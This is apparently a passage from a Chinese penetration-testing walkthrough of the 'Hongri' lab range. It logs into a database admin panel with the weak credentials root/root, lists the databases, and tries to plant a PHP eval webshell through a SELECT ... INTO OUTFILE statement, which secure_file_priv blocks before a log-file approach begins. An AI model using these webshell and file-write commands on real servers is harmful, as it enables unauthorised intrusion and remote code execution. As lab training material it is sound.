 ![image-20210805210542586](/home/haoyun/.config/Typora/typora-user-images/image-20210805210542586.png)



这里使用弱口令root  root登录了后台

![image-20210805210815913](/home/haoyun/.config/Typora/typora-user-images/image-20210805210815913.png)



可以看到目标服务器中的数据库列表如下，值得注意的是mysql数据库中的user数据表和newyxcms数据库(这个可能是旁站cms的数据库)

![image-20210806111233382](红日靶场内网渗透.assets/image-20210806111233382.png)







进入后台我们想拿到服务器shell权限，由于在之前信息收集中知道了绝对路径，所以尝试使用sql语句写入一句话木马，然后使用工具连接，拿到服务器shell权限

在SQL窗口执行写入一句话木马SQL语句

```
select '<?php @eval($_GET["cmd"]);?>' into outfile 'C:/phpstudy/www/cmd.php';
```

但提示由于设置了secure_file_priv选项限制了文件的写入

![image-20210805211802360](/home/haoyun/.config/Typora/typora-user-images/image-20210805211802360.png)



我们来看看secure_file_priv这个参数的设置

```
SHOW GLOBAL VARIABLES LIKE '%secure%'
```

可以看到该参数设置为NULL，表示限制啦mysql不允许导入导出，写入文件

![image-20210805213119488](/home/haoyun/.config/Typora/typora-user-images/image-20210805213119488.png)



我们换个思路，对于数据库的日志记录，尝试修改日志文件为php后缀指定文件，然后将一句话木马写入该日志记录文件中
